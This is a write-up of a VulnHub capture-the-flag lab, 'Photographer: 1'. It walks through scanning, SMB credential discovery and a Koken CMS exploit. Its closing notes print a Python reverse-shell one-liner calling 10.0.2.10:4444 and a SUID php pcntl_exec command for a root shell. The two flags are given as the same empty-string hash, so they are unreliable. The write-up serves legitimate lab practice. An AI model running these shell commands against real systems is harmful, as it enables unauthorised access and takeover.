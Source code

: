 ```yaml
---
categories: [VulnHub]
tags: [PrivEsc]
---
```

# Photographer


## **Description ⤵️**


💡 [Photographer : 1](https://vulnhub.com/entry/photographer-1,519/) ⤵️

This machine was developed to prepare for OSCP. It is boot2root, tested on VirtualBox (but works on VMWare) and has two flags: user.txt and proof.txt.



Let’s find the IP Address first >>

```bash
IP : 10.0.2.25
```

## Port Scan Results ➡️

![124-1.png](/Vulnhub-Files/img/Photographer/124-1.png)

![124-2.png](/Vulnhub-Files/img/Photographer/124-2.png)

```bash
OPEN PORTS >
80   HTTP
139  SMB
445  SMB
8000 HTTP
```

---

## Web Enumeration ⤵️

![125-1.png](/Vulnhub-Files/img/Photographer/125-1.png)

Lets first do some directory traversal →

![127-1.png](/Vulnhub-Files/img/Photographer/127-1.png)

![125-2.png](/Vulnhub-Files/img/Photographer/125-2.png)

![125-3.png](/Vulnhub-Files/img/Photographer/125-3.png)

Lets check the SMB part →

![128-1.png](/Vulnhub-Files/img/Photographer/128-1.png)

![128-2.png](/Vulnhub-Files/img/Photographer/128-2.png)

![128-3.png](/Vulnhub-Files/img/Photographer/128-3.png)

```bash
Lets try these credentials → 
→ agi@photographer.com
→ daisa@photographer.com
→ my babygirl
So the final credentials were → 
ID     : daisa@photographer.com
pass : babygirl
```

![128-4.png](/Vulnhub-Files/img/Photographer/128-4.png)

Now after login to koken site Let is further Enumerate →

![125-4.png](/Vulnhub-Files/img/Photographer/125-4.png)

Let is follow the exploit path →

![125-5.png](/Vulnhub-Files/img/Photographer/125-5.png)

![125-6.png](/Vulnhub-Files/img/Photographer/125-6.png)

got the results →

![125-7.png](/Vulnhub-Files/img/Photographer/125-7.png)

Then I executed the python reverse shell code and I got this →

![126-1.png](/Vulnhub-Files/img/Photographer/126-1.png)

![126-2.png](/Vulnhub-Files/img/Photographer/126-2.png)

```bash
user.txt → d41d8cd98f00b204e9800998ecf8427e
```

while cheching the SUID file I got this →

![126-3.png](/Vulnhub-Files/img/Photographer/126-3.png)

![126-4.png](/Vulnhub-Files/img/Photographer/126-4.png)

![126-5.png](/Vulnhub-Files/img/Photographer/126-5.png)

![126-6.png](/Vulnhub-Files/img/Photographer/126-6.png)

```bash
proof.txt → d41d8cd98f00b204e9800998ecf8427e
```

---

# **Summery Notes →**

Koken 0.22.24

daisa@photographer.com

agi@photographer.com

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

`.**/**usr**/**bin**/**php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"`